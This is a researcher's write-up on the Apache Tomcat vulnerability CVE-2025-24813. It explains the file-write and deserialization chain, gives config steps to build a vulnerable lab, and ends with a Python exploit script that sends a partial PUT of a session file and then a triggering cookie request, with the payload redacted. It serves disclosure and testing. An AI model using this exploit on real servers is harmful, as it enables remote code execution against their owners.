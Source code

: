 # 2025-03-14 (Friday): Testing CVE-2025-24813

## Author

- Yiheng An

## References

- `[LinkedIn social media post]`
- `[X social media post]`

## Original References

- https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq
- https://nvd.nist.gov/vuln/detail/CVE-2025-24813
- https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html

## Versions Affected

- Apache Tomcat 11.0.0-M1 to 11.0.2
- Apache Tomcat 10.1.0-M1 to 10.1.34
- Apache Tomcat 9.0.0.M1 to 9.0.98

## Notes

CVE-2025-24813 is a recently announced vulnerability for Apache Tomcat. Apache is an open-source web server platform, and Tomcat is software that allows Apache web servers to run Java servlets.

Exploiting this vulnerability consists of two steps:

1. Arbitrary file writing
2. Insecure deserialization

####  Arbitrary File Writing

When session persistence is enabled in Tomcat, the server will serialize all active user sessions before shutting down. Upon restarting, Tomcat will deserialize these sessions, allowing user sessions to remain active without users being aware of the server restart. 

However, if the HTTP PUT method in Tomcat is enabled, files uploaded via HTTP PUT requests may be cached in the same directory where serialized session data is stored. On a vulnerable web server, an attacker might be able to exploit CVE-2025-24813 to save malicious files to the serialized session data directory.

#### Insecure Deserialization

After saving a malicious file to the directory for serialized session data. An attacker could use a crafted cookie to "wake up" a session. This could potentially trigger Tomcat to deserialize a maliciously crafted session file, allowing exploitation through deserialization vulnerabilities

## Testing an Exploit 

We successfully tested an exploit for CVE-2025-24813 on an Apache web server running an outdated version of Tomcat with an outdated version of Java.

Note: All URLs below have been de-fanged.

#### Test Environment

- Ubuntu 24 Server
- Apache-Tomcat 9.0.90
  - hxxps[:]//archive.apache[.]org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
- Java 8.0.442-zulu
- Some depdendencies
  - hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
  - htxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar

#### Establishing a Vulnerable Tomcat Configuration

1. Enable PUT

   Edit `tomcat/conf/web.xml` to add a `readonly` parameter under the `default` servlet name section and set it to `false`. An example is shown below near the end of the code.

   ```xml
       <servlet>
           <servlet-name>default</servlet-name>
           <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
           <init-param>
               <param-name>debug</param-name>
               <param-value>0</param-value>
           </init-param>
           <init-param>
               <param-name>listings</param-name>
               <param-value>false</param-value>
           </init-param>
           <init-param>
             <param-name>readonly</param-name>
             <param-value>false</param-value>
           </init-param>
           <load-on-startup>1</load-on-startup>
       </servlet>
   ```

2. Enable Session persistence

   Edit `/tomcat/conf/content.xml` and add the following setting.

   ```xml
       <Manager className="org.apache.catalina.session.PersistentManager">
         <Store className="org.apache.catalina.session.FileStore" />
       </Manager>
   ```

3. Using the following commands, create a directory at `/tomcat/webapps/ROOT/WEB-INF/lib` and place two outdated dependencies within it.

   ```
   mkdir ./tomcat/webapps/ROOT/WEB-INF/lib && cd ./tomcat/webapps/ROOT/WEB-INF/lib
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
   ```

#### Exploit

We used [Java Chains](https://github.com/vulhub/java-chains) to create a specially crafted session file and send it to a temporarily vulnerable web server running Apache Tomcat at `www.wiresharkworkshop[.]online`. Below is an example of Python script used for this purpose. The malicious session file is named `gopan.session` but can be changed to any name.

```python
import requests
import base64
import os

TARGET_IP = "hxxp[:]//www.wiresharkworkshop[.]online:8080/"

# b64_encoded_payload = "****[information redacted]****"

output_file_path = "decoded_chain.bin"
decoded_content = base64.b64decode(b64_encoded_payload)

with open(output_file_path, "wb") as f:
    f.write(decoded_content)

put_url = f"{TARGET_IP}/gopan.session"
put_headers = {"Content-Range": "bytes 0-5/100"}

with open(output_file_path, "rb") as f:
    put_response = requests.put(put_url, data=f, headers=put_headers)
os.remove(output_file_path)

get_url = f"{TARGET_IP}/"
get_headers = {"Cookie": "JSESSIONID=.gopan"}
get_response = requests.get(get_url, headers=get_headers)
```
